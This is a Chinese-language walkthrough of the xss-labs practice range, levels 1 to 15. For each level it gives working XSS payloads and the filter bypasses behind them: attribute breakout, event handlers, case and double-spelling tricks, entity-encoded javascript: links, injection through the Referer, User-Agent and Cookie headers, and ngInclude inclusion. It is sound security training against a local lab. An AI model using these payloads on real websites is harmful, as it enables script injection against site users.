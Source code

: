 



# 靶场地址

+ 靶场地址：[xss-labs](https://gitcode.com/mirrors/do0dl3/xss-labs/tree/master)
+ 首次从靶场地址下载源文件的文件夹到本地
+ 解压到phpstudy的www目录下，名字改为xss-labs
+ 打开浏览器直接进入 http://127.0.0.1/xss-labs/ 即可访问靶场



+ 靶场通关参考地址：[xss-labs靶场实战全通关](https://blog.csdn.net/l2872253606/article/details/125638898?ops_request_misc=%7B%22request%5Fid%22%3A%22170288814616800182767434%22%2C%22scm%22%3A%2220140713.130102334..%22%7D&request_id=170288814616800182767434&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~top_positive~default-1-125638898-null-null.142^v96^control&utm_term=xss-labs&spm=1018.2226.3001.4187)

![入口](./img/入口.png)



# level 1 

![level1_1](./img/level1_1.png)

首先确定<code>payload</code>的位置，发现如上图所示即为<code>payload</code>的位置



改写<code>payload</code>为：

~~~ javascript
<script>alert("123")</script>
~~~

![level1_2](./img/level1_2.png)

直接编写脚本注入执行即可成功



# level2

+ 首先确定<code>payload</code>的位置，如下图

![level2_1](./img/level2_1.png)



+ 编写<code>payload</code>为：

~~~ javascript
"> <script>alert(1)</script>
~~~

闭合<code>input</code>标签中<code>value</code>值然后再注入即可

![level2_2](./img/level2_2.png)



# level3

+ 首先确定<code>payload</code>的位置，如下，先输入<code>"</code>然后点搜索后发现双引号<code>"</code>被转义为<code>html</code>实体

![level3_1](./img/level3_1.png)



+ 查看源文件<code>level3.php</code>源文件，发现该位置有<code>htmlspecialchars</code>函数

![level3_2](./img/level3_2.png)



+ 查看<code>[php手册](https://www.php.net/manual/zh/function.htmlspecialchars)</code>，如下：

![level3_3](./img/level3_3.PNG)



+ 输入单引号<code>’</code>，发现单引号<code>'</code>不会被转义，用单引号<code>' </code>闭合<code>Input</code>函数

![level3_4](./img/level3_4.PNG)

![level3_5](./img/level3_5.PNG)



+ 输入<code>payload</code>为：<code>' onclick=javascript:alert() /></code>，然后点搜索按钮注入：

![level3_9](./img/level3_9.PNG)



+ 看页面源码发现页面已经被注入，后点击输入框发现注入成功

![level3_10](./img/level3_10.PNG)



# level4

+ 首先找到<code>payload</code>的点，如下图：

![level4_1](./img/level4_1.png)



+ 尝试输入<code>'</code>，发现无效

![level4_2](./img/level4_2.png)



+ 输入<code>"</code>，发现<code>value</code>属性闭合，可和<code>level3</code>一样构造函数<code>onclick</code>，<code>payload</code>为<code>" onclick=alert() "</code>

![level4_3](./img/level4_3.png)



+ 可发现函数已经构造好了，点击一下输入框即可触发函数

![level4_4](./img/level4_4.png)



#  level5

+ 首先查看源代码，发现输入<code>script</code>会被替换为<code>scr_ipt</code>，而<code>on</code>则被替换为<code>o_n</code>，同时将输入的字符转小写然后使用<code>htmlspecialchars</code>函数转换

![level5_1](./img/level5_1.png)



+ 确定<code>payload</code>的点

![level5_2](./img/level5_2.png)



+ 尝试输入<code>"</code>，发现可以将<code>value</code>属性闭合

![level5_3](./img/level5_3.png)

![level5_4](./img/level5_4.png)



+ <code>payload</code>尝试改为<code>"><script>alert()</script></code>,发现可成功注入，但最终注入失败，<code>script</code>标签被转化为<code>scr_ipt</code>

  

  ![level5_5](./img/level5_5.png)

![level5_6](./img/level5_6.png)



+ 由此,<code>on</code>会被转化为<code>o_n</code>，故此不用<code>onclick</code>或者<code>onfocus</code>等其他属性注入.尝试使用<code><a></code>标签，<code>payload</code>改为<code>"><a href="javascript:alert()"></code>，注入成功:

![level5_7](./img/level5_7.png)

![level5_8](./img/level5_8.png)



+ 发现用<code><a></code>标签注入成功，点一下该标签发现效果如下

![level5_9](./img/level5_9.png)



# level6

+ 首先查看代码，发现会将<code>on</code>转化为<code>o_n</code>，<code>script</code>转化为<code>scr_ipt</code>，<code>src</code>转化为<code>sr_c</code>，<code>data</code>转化为<code>da_ta</code>，<code>href</code>转化为<code>hr_ef</code>，同时也会使用<code>htmlspecialchars</code>函数

![level6_1](./img/level6_1.png)



+ 确定<code>payload</code>的点如下：

![level6_2](./img/level6_2.png)



+ 由之前代码审计可知，前几关使用的构造<code>onclick</code>属性及<code><a href></code>标签就不好用了，由此，可尝试大小写构造<code>payload</code>如            <code>    " /><Script>alert()</Script></code>

![level6_3](./img/level6_3.PNG)



+ 注入后，发现成功：

![level6_4](./img/level6_4.PNG)



# level7

+ 首先查看源代码，发现首先会将所有输入字符转为小写，<code>script</code>、<code>on</code>、<code>src</code>、<code>data</code>、<code>href</code>等字符转为空字符串，由此大小写绕过和构造<code>on</code>函数及<code>script</code>标签均不成功了

![level7_1](./img/level7_1.PNG)



+ 确定<code>payload</code>的地方

![level7_2](./img/level7_2.png)



+ 由上面的分析，可使用双拼写绕过，构造<code>payload</code>为<code>"/><sscriptcript>alert()</sscriptcript></code>

![level7_3](./img/level7_3.PNG)



+ 这关甚至还过滤掉了src和data，受不了了，百度找找看其他解法

​		src(source)是一个指向，可以大概理解跟href一样把，只是执行的内容不太一样
​		data一般在<iframe>标签中用来配合date:text/html（貌似解码的含义）



第二关没啥过滤只有一个html实体转义，我们回到第二关测试一下 

![level7_4](./img/level7_4.PNG)

先试一下<code>src</code>，这里配合<code>onerror</code>属性，插入一个<code><img></code>标签，闭合掉双引号跟括号，构造<code>payload</code>

<code>"> <img src='666' onerror=alert()> <"</code>

>  onerror属性是指当图片加载不出来的时候触发js函数，以上面的代码为例，这里因为src指向的是值666，而不是图片的地址和base64编码啥的，就会导致触发alert函数

![level7_5](./img/level7_5.PNG)



当然img标签还有其他姿势

①当鼠标移出图片的时候执行的属性<code>onmouseout </code>

<code>"> <img src=666 onmouseout="alert()"> <"</code>

②当鼠标移动到图片的时候执行的属性<code>onmouseover</code>

<code>"> <img src=1 onmouseover="alert()"> <"</code>



再来看看<code>data</code>的，这里利用<code>iframe</code>标签，插入一个标签<code>data:text/html;base64</code>, 将后面的内容进行<code>base64</code>解码，<code>PHNjcmlwdD5hbGVydCgpPC9zY3JpcHQ+</code>进行base64解码后是<code><script>alert()</script></code>

<code>"> <iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgpPC9zY3JpcHQ+"> <"</code>


虽然有弹窗，但是没有过关 

![level7_6](./img/level7_6.png)


# level8

+ 首先查看源代码，发现首先会将所有输入字符转为小写，<code>script</code>、<code>on</code>、<code>src</code>、<code>data</code>、<code>href</code>等字符转为空字符串，由此大小写绕过和构造<code>on</code>函数及<code>script</code>标签均不成功了，还会将<code>"</code>双引号转化为其他字符串

![level8_1](./img/level8_1.PNG)



+ 确定<code>payload</code>的位置以及会执行的动作

![level8_2](./img/level8_2.png)



+ 由此，可利用<code>href</code>隐藏属性自动触发<code>Unicode</code>解码插入一段<code>javascript</code>伪代码<code>javascipt:alert()</code>，可利用[在线Unicode编码解码工具](https://www.matools.com/code-convert-unicode)进行<code>Unicode</code>编码，将<code>javascript:alert()</code>转化为

~~~ javascript
&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#41;
~~~



![level8_3](./img/level8_3.png)



+ 注入后点击友情链接即可触发<code>xss</code>注入

![level8_4](./img/level8_4.png)



# level9

+ 首先代码审计，查看源代码

![level9_1](./img/level9_1.PNG)



+ 根据代码审计，false等于false时(传入值没有http://)会执行if，为防止false===false需要向传入的值里加http://并用注释符注释掉否则执行不了无法弹窗，让函数strpos返回一个数字，构造payload

~~~ javascript
&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#41;/* http:// */
~~~



+ 注入后点击对应的<b>友情链接</b>即可弹出相应的结果

![level9_2](./img/level9_2.png)



+ 本关小结：插入指定内容（本关是http://）绕过检测，再将指定内容用注释符注释掉即可



# level10

+ 首先测一下关键字

~~~ shell
" sRc DaTa OnFocus <sCriPt> <a hReF=javascript:alert()> &#106;
~~~

![level10_1](./img/level10_1.PNG)

![level10_2](./img/level10_2.PNG)

注入后发现所有的注入都被实体化了



+ 代码审计，查看一下项目源代码

![level10_3](./img/level10_3.PNG)

好吧，原来还有其他隐藏的传参方法，学到了，这里是get传参t_sort，并过滤掉了<>号，不能闭合插入标签，但是我们还能用onfocus事件，因为这里输入框被隐藏了，需要添加type="text"，构造payload



+ 注入下面的<code>payload</code>：

~~~ shell
?t_sort=" onclick=javascript:alert() type="text
~~~

![level10_4](./img/level10_4.PNG)



+ 注入成功，点击一下输入框会触发脚本执行

![level10_5](./img/level10_5.PNG)



+ **本关小结**：根据源码猜解传参的参数名，隐藏的input标签可以插入type="text"显示



# level11

![level11_1](./img/level11_1.png)

<code><input></code>标签有四个值，都做了隐藏处理，不难看出第四个名为t_ref的<code><input></code>标签是`http`头`referer`的参数（就是由啥地址转跳到这里的，`http`头的`referer`会记录）。先简单测试验证下前面三个标签名，GET与POST传参都试一下



GET传参：

~~~ shell
?t_link=" sRc DaTa OnFocus <sCriPt> <a hReF=javascript:alert()> &#106;&t_history=" sRc DaTa OnFocus <sCriPt> <a hReF=javascript:alert()> &#106;&t_sort=" sRc DaTa OnFocus <sCriPt> <a hReF=javascript:alert()> &#106;
~~~

![level11_2](./img/level11_2.png)

可看到，没有赋值成功



试试POST传参：

~~~ shell
t_link=" sRc DaTa OnFocus <sCriPt> <a hReF=javascript:alert()>&t_history=" sRc DaTa OnFocus <sCriPt> <a hReF=javascript:alert()>&t_sort=" sRc DaTa OnFocus <sCriPt> <a hReF=javascript:alert()>
~~~

![level11_3](./img/level11_3.png)

POST传参也没用(由于没有办法POST传参所以这里没有测试)



考虑<code>referer</code>头，使用<code>burpsuite</code>抓包下然后添加<code>http</code>头的<code>referer</code>

~~~ shell
Referer: " sRc DaTa OnFocus <sCriPt> <a hReF=javascript:alert()> &#106;
~~~

![level11_4](./img/level11_4.png)



可看到成功注入

![level11_5](./img/level11_5.png)



查看源码

![level11_6](./img/level11_6.png)

对比发现，把大于小于号><给删掉了，但是我们还能用onfocus，构造一个http头

~~~ shell
Referer: " onclick=javascript:alert() type="text
~~~

![level11_7](./img/level11_7.png)



发现注入成功

![level11_8](./img/level11_8.png)



点击下文本框，弹出弹框

![level11_9](./img/level11_9.png)



再看下源码

![level11_10](./img/level11_10.png)

跟猜想一样，这题还有GET传参，但还有<code>htmlspecialchars()</code>函数在无法闭合双引号 



 **本关小结**：考虑一下http头传值，本关是referer，但接下来也有可能是其他头，如Cookie等



# level12

![level12_1](./img/level12_1.png)

第四个参数肯定是User-Agent头，用burpsuite抓包一下，将User-Agent头修改为测试代码

~~~ shell
" sRc DaTa OnFocus <sCriPt> <a hReF=javascript:alert()> &#106;
~~~

![level12_3](./img/level12_3.png)

![level12_4](./img/level12_4.png)



可发现成功注入

![level12_5](./img/level12_5.png)



构造想要构造的<code>User-Agent</code>头：

~~~ shell
User-Agent:" onclick=javascript:alert() type="text
~~~

![level12_6](./img/level12_6.png)



发现注入成功：

![level12_7](./img/level12_7.png)



点一下方框，触发函数：

![level12_8](./img/level12_8.png)



# level13

![level13_1](./img/level13_1.png)

同样，第四个参数是<code>t_cook</code>，猜想应该是<code>cookie</code>



尝试用<code>burpsuite</code>拦截下

![level13_2](./img/level13_2.png)



可看到确实<code>t_user</code>参数的值是<code>Cookie</code>的值

![level13_3](./img/level13_3.png)



用<code>burpsuite</code>拦截然后修改下<code>Cookie</code>的值注入：

~~~ shell
" onclick=alert() type="text 
~~~

![level13_4](./img/level13_4.png)



回到页面发现注入成功

![level13_5](./img/level13_5.png)



点击方框发现成功反弹

![level13_6](./img/level13_6.png)



**本关小结**：还是http头传参



# level14 

这题有问题，直接跳到下一关

# level15

+ 首先<code>F12</code>查看网站源代码，发现有个奇怪的<code>ngInclude</code>指令

![level15_1](./img/level15_1.png)



+ 了解下<code>ngInclude</code>指令

![level15_2](./img/level15_2.png)



+ 既然可以引用<code>html</code>文件，直接引用第一关的<code>html</code>文件网址路径尝试

~~~ shell
http://192.168.31.127:8080/xss-labs/level1.php?name=hzj
~~~

![level15_3](./img/level15_3.png)



+ 注入以下网址

~~~ shell
http://192.168.31.127:8080/xss-labs/level15.php?src=http://192.168.31.127:8080/xss-labs/level1.php?name=hzj
~~~

![level15_4](./img/level15_4.png)

发现相应的地方没有问题



+ 注入以下指令

~~~ shell
http://192.168.31.127:8080/xss-labs/level15.php?src=http://192.168.31.127:8080/xss-labs/level1.php?name=<script>alert()</script>
~~~

![level15_5](./img/level15_5.png)

发现没用



+ 在引用的网址外层加上单引号，完整<code>URL</code>如下：

~~~ shell
http://192.168.31.127:8080/xss-labs/level15.php?src='http://192.168.31.127:8080/xss-labs/level1.php?name=<script>alert()</script>'
~~~

![level15_6](./img/level15_6.png)

看到指令被正确使用，网址成功包含，但没有成功触发弹窗，这里可以包含那些标签如<code><a></code>、<code><input></code>、<code><img></code>、<code><p></code>标签等等，这些标签需要手动点击弹窗



+ 注入以下指令

~~~ shell
http://192.168.31.127:8080/xss-labs/level15.php?src='http://192.168.31.127:8080/xss-labs/level1.php?name=<a href=javascript:alert()>href</a>'
~~~

![level15_8](./img/level15_8.png)

注入成功



+ 点击对应的链接，成功弹窗

![level15_9](./img/level15_9.png)



# level16



[xss-labs靶场实战全通关详细过程（xss靶场详解）-CSDN博客](https://blog.csdn.net/l2872253606/article/details/125638898?ops_request_misc={"request_id"%3A"170288814616800182767434"%2C"scm"%3A"20140713.130102334.."}&request_id=170288814616800182767434&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~top_positive~default-1-125638898-null-null.142^v96^control&utm_term=xss-labs&spm=1018.2226.3001.4187)
